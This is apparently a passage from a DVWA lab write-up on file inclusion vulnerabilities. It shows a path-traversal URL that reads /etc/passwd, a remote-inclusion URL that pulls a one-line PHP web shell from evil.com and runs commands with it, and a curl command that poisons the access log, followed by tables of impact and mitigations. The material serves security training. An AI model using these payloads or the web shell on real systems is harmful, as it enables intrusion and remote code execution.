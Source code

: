 ### A. Local File Disclosure

```
http://127.0.0.1/DVWA/vulnerabilities/fi/?page=../../../../../../etc/passwd
```

### B. Remote File Inclusion (RFI)

```
http://127.0.0.1/DVWA/vulnerabilities/fi/?page=http://evil.com/shell.txt
```

**shell.txt**
```php
<?php system($_GET['cmd']); ?>
```

**Execution**
```
http://127.0.0.1/DVWA/vulnerabilities/fi/?page=http://evil.com/shell.txt&cmd=id
```

### C. Log Poisoning

```bash
curl -A "<?php system('id'); ?>" http://127.0.0.1/
?page=/var/log/apache2/access.log
```

---

## 4️⃣ Risk & Real-World Impact

| 🧠 Exploit Impact        | 🎯 Description                                                                  |
|--------------------------|----------------------------------------------------------------------------------|
| System File Disclosure   | Access to sensitive system files like `/etc/passwd`                             |
| Source Code Exposure     | Disclosure of internal code and secrets                                         |
| Remote Code Execution    | Full RCE via RFI or log injection                                               |
| Internal Reconnaissance  | Mapping of internal file structure or logs                                      |

---

## 5️⃣ 🚧 Mitigation Measures (Low)

| 🚫 Vulnerability         | ✅ Mitigation                                                                      |
|--------------------------|-------------------------------------------------------------------------------------|
| Unrestricted Inclusion   | Use strict whitelisting of include files                                           |
| Path Traversal           | Apply `realpath()` and verify base directory containment                          |
| Remote File Inclusion    | Disable `allow_url_include`, `allow_url_fopen` in `php.ini`                        |
| User-Controlled Input    | Use static routing instead of dynamic includes                                     |

---